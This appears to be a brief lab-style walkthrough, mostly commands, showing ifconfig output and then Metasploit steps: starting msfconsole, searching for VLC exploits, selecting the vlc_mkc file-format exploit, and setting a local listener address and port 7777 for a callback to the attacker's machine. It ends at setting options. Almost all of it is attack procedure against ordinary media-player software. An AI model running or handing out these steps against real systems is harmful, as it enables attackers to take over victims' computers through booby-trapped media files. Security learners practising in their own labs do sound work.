


# 2 - ifconfig

```
ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.112  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::60a9:bbdc:b61b:ef97  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:45:0d:4f  txqueuelen 1000  (Ethernet)
        RX packets 25  bytes 21526 (21.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 42  bytes 18416 (17.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 4  bytes 240 (240.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4  bytes 240 (240.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



# 4 - `msfconsole -q`

```
msfconsole -q
```



# 6 - search for vlc exploit

```
msf6 > search vlc
```

# 7 - Steps

```
use exploit/windows/fileformat/vlc_mkc
```

```
show options
```

```
set LHOST 192.168.1.112
```

```
set LPORT 7777
```